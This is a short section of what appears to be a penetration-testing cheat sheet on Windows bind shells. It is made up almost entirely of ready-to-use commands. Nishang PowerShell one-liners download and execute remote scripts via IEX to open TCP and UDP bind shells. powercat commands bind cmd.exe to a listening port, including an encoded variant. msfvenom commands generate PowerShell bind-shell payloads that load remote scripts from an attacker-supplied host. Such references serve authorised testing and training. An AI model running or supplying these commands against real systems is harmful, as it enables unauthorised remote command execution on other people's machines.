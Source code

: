 ### 2.2 - Bind Shells

#### 01 - Nishang

##### 1.1 - TCP Protocol

```
PS C:\> IEX (New-Object System.Net.WebClient).DownloadString('https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1')

Invoke-PowerShellTcp -Bind -Port <PORT>
```

##### 1.2 - UDP Protocol

```
PS C:\> IEX (New-Object System.Net.WebClient).DownloadString('https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellUdp.ps1')

Invoke-PowerShellUdp -Bind -Port <PORT>
```

#### 02 - `powercat`

Generate bind shell.

```
> powercat -l -p <PORT> -e cmd.exe -g
```

Generate encoded bind shell.

```
> powercat -l -p <PORT> -e cmd.exe -ge
```

#### 03 - `msfvenom`

##### 3.1 - x86 (32-bit) Payloads

You can load powershell scripts ahead of time.

```
$ msfvenom -p cmd/windows/powershell_bind_tcp lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o payload.ps1

$ msfvenom -p windows/powershell_bind_tcp lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o payload.ps1
```

##### 3.2 - x86-64 (64-bit) Payloads

You can load powershell scripts ahead of time.

```
$ msfvenom -p windows/x64/powershell_bind_tcp lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o payload-x86-64.ps1
```
